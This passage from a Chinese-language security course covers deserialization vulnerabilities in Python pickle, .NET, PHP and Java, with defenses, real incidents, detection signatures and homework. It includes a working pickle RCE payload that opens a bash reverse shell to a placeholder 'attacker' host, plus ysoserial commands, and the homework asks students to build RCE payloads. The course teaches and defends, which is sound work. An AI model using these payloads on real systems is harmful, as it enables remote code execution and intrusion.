restored = pickle.loads(serialized)
# {"user": "admin", "is_admin": True}
```

### pickle 格式
```plain
0x80 0x04   ← protocol version 4
...        ← 字节码指令
.           ← 结束
```

---

## 4.2 pickle 漏洞核心：**reduce**
> pickle 反序列化时**调用 **`__reduce__` 方法返回的可调用对象。
>

### 漏洞示例
```python
class Evil:
    def __reduce__(self):
        return (os.system, ("id",))    # 反序列化时执行 os.system("id")

payload = pickle.dumps(Evil())
# 把 payload 给目标 pickle.loads() → 执行 id
```

### 完整攻击
```python
import pickle, os, base64

class RCE:
    def __reduce__(self):
        return (os.system, ("bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'",))

payload = base64.b64encode(pickle.dumps(RCE())).decode()
print(payload)
# 把 base64 字符串发给目标
```

如果目标：

```python
data = request.cookies.get("data")
obj = pickle.loads(base64.b64decode(data))   # ❌ RCE
```

---

## 4.3 Python pickle 利用场景
### Django session
Django 默认 session 用 JSON，但如果切到 pickle serializer：

```python
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'
```

→ Cookie 中含 pickle 数据 → 反序列化漏洞。

### Celery 任务
Celery 任务参数用 pickle 序列化。

### Redis 缓存
如果用 pickle 序列化缓存对象。

### 检测
```plain
□ Cookie 中含 gASV （pickle 协议 4 开头 + reduce 标志）
□ Redis / Memcache 中有 pickle 数据
□ 后台异步任务参数
```

---

## 4.4 .NET 反序列化（简介）
### BinaryFormatter
```csharp
var formatter = new BinaryFormatter();
var obj = formatter.Deserialize(stream);   // ❌
```

**已废弃**：.NET 5+ 标记为危险，不再推荐。

### Newtonsoft.Json TypeNameHandling
```csharp
var settings = new JsonSerializerSettings {
    TypeNameHandling = TypeNameHandling.All   // ❌ 危险
};
var obj = JsonConvert.DeserializeObject(json, settings);
```

`TypeNameHandling.All` 类似 Fastjson 的 autoType → 反序列化任意类型。

### 工具：ysoserial.net
```powershell
ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "calc" -o base64
```

---

## 4.5 防御核心原则


---

## 4.6 PHP 防御
### 1. 不要 unserialize 用户输入
```php
// ❌ 危险
$data = unserialize($_GET['data']);

// ✅ 用 JSON
$data = json_decode($_GET['data'], true);
```

### 2. allowed_classes 白名单
```php
// PHP 7+
$data = unserialize($userInput, ["allowed_classes" => false]);   // 不允许任何类
$data = unserialize($userInput, ["allowed_classes" => ["SafeClass"]]);  // 仅 SafeClass
```

### 3. 升级 PHP 版本
PHP 8.1+ 对反序列化做了更严格的限制。

### 4. 禁用 phar://
```properties
; php.ini
allow_url_fopen = Off
phar.require_hash = On
```

---

## 4.7 Java 防御
### 1. 不要 readObject 用户输入
```java
// ❌ 危险
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object obj = ois.readObject();

// ✅ 用 JSON
Gson gson = new Gson();
MyClass obj = gson.fromJson(json, MyClass.class);
```

### 2. ObjectInputFilter（Java 9+）
```java
ObjectInputStream ois = new ObjectInputStream(in);
ois.setObjectInputFilter(info -> {
    Class<?> clazz = info.serialClass();
    if (clazz != null && ALLOWED_CLASSES.contains(clazz.getName())) {
        return ObjectInputFilter.Status.ALLOWED;
    }
    return ObjectInputFilter.Status.REJECTED;
});
```

### 3. Fastjson 防御
```java
ParserConfig.getGlobalInstance().setSafeMode(true);          // 1.2.68+
ParserConfig.getGlobalInstance().setAutoTypeSupport(false);
ParserConfig.getGlobalInstance().addDeny("com.sun.");        // 黑名单
```

### 4. Jackson 防御
```java
ObjectMapper mapper = new ObjectMapper();
mapper.disableDefaultTyping();                                // 禁用 default typing
mapper.activateDefaultTyping(
    LaissezFaireSubTypeValidator.instance,
    ObjectMapper.DefaultTyping.NONE
);
```

### 5. WebLogic / 中间件补丁
及时打补丁！WebLogic 每年都有新的反序列化 CVE。

---

## 4.8 Python 防御
### 1. 不要 pickle.loads 用户输入
```python
# ❌ 危险
pickle.loads(user_data)

# ✅ 用 JSON
import json
json.loads(user_data)
```

### 2. 自定义 Unpickler
```python
class SafeUnpickler(pickle.Unpickler):
    ALLOWED = {set, frozenset, list, tuple, dict, int, float, str, bool, type(None)}
    def find_class(self, module, name):
        if (module, name) in {("builtins", "set"), ...}:
            return super().find_class(module, name)
        raise pickle.UnpicklingError(f"forbidden {module}.{name}")

data = SafeUnpickler(io.BytesIO(input)).load()
```

### 3. 改用 JSON serializer
```python
# Django
SESSION_SERIALIZER = 'django.contrib.sessions.serializers.JSONSerializer'
```

---

## 4.9 真实案例赏析
### 案例 1：Apache Commons Collections (2015)
+ 影响最广的 Java 反序列化漏洞
+ 几乎所有用 CC 1.x/3.x 的 Java 应用都受影响
+ 包括 WebLogic / WebSphere / JBoss / Jenkins
+ 引发业界对 Java 反序列化的关注

### 案例 2：WebLogic 反序列化 (2015-至今)
+ T3 协议反序列化
+ 每年都有新 CVE：2015-4852 / 2016-0638 / 2017-3248 / 2018-2628 / 2020-2883 ...
+ 多次绕过 Oracle 官方补丁

### 案例 3：San Francisco City Ransomware (2017)
+ 攻击者通过 Java 反序列化攻击 Municipal Railway
+ 勒索 100 BTC（约 7 万美元）

### 案例 4：Apache Struts 2 (2017)
+ 多个反序列化 CVE
+ Equifax 利用此漏洞泄露 1.43 亿用户数据

### 案例 5：Fastjson 系列 (2017-2022)
+ 国内大厂广泛使用 Fastjson
+ 多个版本绕过
+ 1.2.24 / 1.2.47 / 1.2.68 / 1.2.80 多次大规模利用

### 案例 6：log4shell (2021)
+ log4j2 JNDI 反序列化
+ 影响**全球几乎所有 Java 应用**
+ Minecraft 服务器被攻击，iCloud 被攻击
+ CVSS 10.0 满分
+ 被称为"互联网十年最严重漏洞"

### 案例 7：MOVEit (2023)
+ .NET 反序列化漏洞
+ 影响全球 2500+ 企业
+ 攻击者 Cl0p 勒索软件获利上亿美元

---

## 4.10 反序列化检测自动化
### Java：利用 URLDNS 通用检测
```bash
# 生成 URLDNS payload
java -jar ysoserial.jar URLDNS "http://xxx.ceye.io/test" | \
    base64 > urldns.b64

# 在疑似反序列化点提交
# 看 ceye.io 是否有 DNS 命中
```

### 流量特征
```plain
- 请求 body 中含 aced0005（hex）
- 请求 body 中含 rO0AB（base64）
- 请求 body 中含 gASV（Python pickle）
- Content-Type: application/x-java-serialized-object
- Fastjson 接口含 @type
- Jackson 接口含 @class
```

### Burp 插件：Java Deserialization Scanner
+ 自动检测 Java 反序列化点
+ 集成 ysoserial 链
+ 一键利用

---

## 4.11 第 4 课小结
| 知识点 | 一句话 |
| --- | --- |
| Python pickle **reduce** | 反序列化时调用返回的可调用对象 |
| 检测 pickle | gASV 开头 |
| .NET TypeNameHandling.All | 类似 Fastjson autoType |
| 防御核心 | 不要反序列化用户输入 |
| PHP 防御 | allowed_classes 白名单 |
| Java 防御 | ObjectInputFilter / Fastjson safeMode |
| Python 防御 | JSON serializer |
| Commons Collections | 业界最经典反序列化漏洞 |
| log4shell | 十年最严重漏洞 |
| MOVEit | .NET 反序列化典型 |


---

# 📝 课程总回顾（必背 30 条）
### 基础
1. 序列化 = 对象 → 字符串/字节流
2. 反序列化 = 字符串/字节流 → 对象
3. 漏洞本质 = 反序列化用户输入 + 危险类
4. PHP 格式 = O:N:"Class":N:{...}
5. Java 头部 = aced0005 / rO0AB
6. Python pickle 协议头 = 0x80

### PHP
7. 魔术方法 __wakeup 反序列化时调用
8. 魔术方法 __destruct 对象销毁时调用
9. __toString / __call / __invoke 都能进链
10. POP 链 = 多个魔术方法串联
11. __wakeup 绕过 = CVE-2016-7124 改属性数
12. 字符串逃逸 = 替换变长/变短错位
13. phar 反序列化 = phar:// 触发
14. 触发 phar 的函数 = file_exists / fopen / stat 等

### Java
15. readObject 自动调用类自定义 readObject
16. Apache Commons Collections = CC 链
17. ysoserial = 自动生成 payload
18. URLDNS = 通用检测链（DNS）
19. WebLogic T3 协议 = 经典入口（端口 7001）
20. Fastjson @type = JSON 中声明任意类

### Fastjson
21. JdbcRowSetImpl = JNDI 注入利用链
22. marshalsec = 启动恶意 LDAP/RMI
23. 1.2.24 / 1.2.47 / 1.2.68 多次绕过
24. safeMode = 推荐开启

### Python / .NET
25. pickle **reduce** = 反序列化时调用
26. Django PickleSerializer = 高危
27. .NET BinaryFormatter 已废弃
28. Newtonsoft TypeNameHandling.All = 危险

### 防御
29. 不反序列化用户输入 = 根本防御
30. 改用 JSON / 白名单 = 工程实践

---

# 🎯 课后作业
### 基础题
1. PHP 写一个 User 类，serialize 输出并分析每段格式
2. 自建 PHP 反序列化漏洞，构造直接 RCE payload
3. 用 Python pickle 构造 base64 编码的 RCE payload

### 进阶题
4. 自建 PHP POP 链靶场，串联 3 个类触发 RCE
5. 用 ysoserial 生成 URLDNS payload，在 ceye.io 检测
6. vulhub 启动 WebLogic CVE-2018-2628，完成 RCE
7. vulhub 启动 Fastjson 1.2.24 靶场，用 JdbcRowSetImpl 触发

### 实战题
8. **代码审计**：找一个开源 PHP 项目，grep unserialize + 魔术方法
9. **完整链**：构造恶意 phar 文件，通过上传 + phar:// 触发反序列化
10. **写防御**：在 PHP / Java / Python 三种语言实现正确防御

---


